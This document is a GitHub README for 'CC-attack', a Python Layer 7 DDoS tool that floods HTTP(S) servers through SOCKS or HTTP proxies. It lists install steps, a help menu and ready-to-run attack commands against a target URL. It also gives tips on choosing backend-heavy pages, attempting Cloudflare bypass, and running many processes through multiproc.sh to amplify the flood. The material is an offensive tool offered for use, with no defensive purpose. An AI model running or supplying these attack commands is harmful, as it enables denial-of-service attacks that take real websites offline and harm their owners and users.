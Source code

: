        /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/ 
     CC/      CC/       |  Layer 7  |/ 
     CC/////  CC/////   | ddos tool |/ 
      CCCCC/   CCCCC/   |___________|/

# CC-attack ![](https://img.shields.io/badge/Version-3.7.2-brightgreen.svg) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

 News:
- ⚠️ To have a better impact, use a link that loads something from backend to stress the server even more. IE: https://example.com/index-loader.php
- ⚠️ I do not guarantee that it can 100% do CF Bypass. If you see a lower hit, use a different proxy and a better User-Agent.
- ⚠️ Proxy checker are not truly precise yet. If you want an interrupted attack, better to check. Else, you can just use the list without checking.
- ✅ Added Support of HTTP proxies
- ✅ Updated proxy list based on rewritten script.
- ✅ Proxy checker are now fixed.
- ✅ Added more proxies.
- ✅ Added KeyboardInterrupt function to avoid terminal hang.
- ✅ Fixed Slowloris type attack.
- ✅ Removed broken proxy lists.

 Info:
- ✅ Using Python3
- ✅ Added more human-like options
- ✅ Http Get/Head/Post/Slow Flood
- ✅ Random Http Header/Data
- ✅ Socks4/5 Proxies Downloader
- ✅ Socks4/5 Proxies Checker
- ✅ Customize Cookies
- ✅ Customize Post Data 
- ✅ Support HTTPS
- ✅ Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

Attack requests from Cloudflare activity log
![](https://user-images.githubusercontent.com/21289340/212525157-8c694b7a-d2bd-4fab-8f65-5ddf4dd9a496.png)

## Install
    If you only have one version of python:
    git clone https://github.com/Vip3rLi0n/CC-attack.git
    cd CC-attack
    pip install -r requirements.txt
    python cc.py -help

    If you are using multiple version of python:

    git clone https://github.com/Vip3rLi0n/CC-attack.git
    cd CC-attack
    pip3 install -r requirements.txt
    python3 cc.py -help

## Usage

    python cc.py <arguments> / python3 cc.py <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
python3 cc.py -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
python3 cc.py -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.py.
Due to the suck performance of python since it has a GIL lock,
And I am lazy to make a multiprocess version.
There is a option for linux user to increase their performance of cc.py

This script basicly just run cc.py multiple times to make it "multi-processing"

First, put this script and cc.py in the same folder.

Then prepare the proxies list by yourself or just run "python3 cc.py -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
atk_cmd="python3 cc.py -url http://target.com -v 4 -s 60"

#number of process that you want
process=10

```
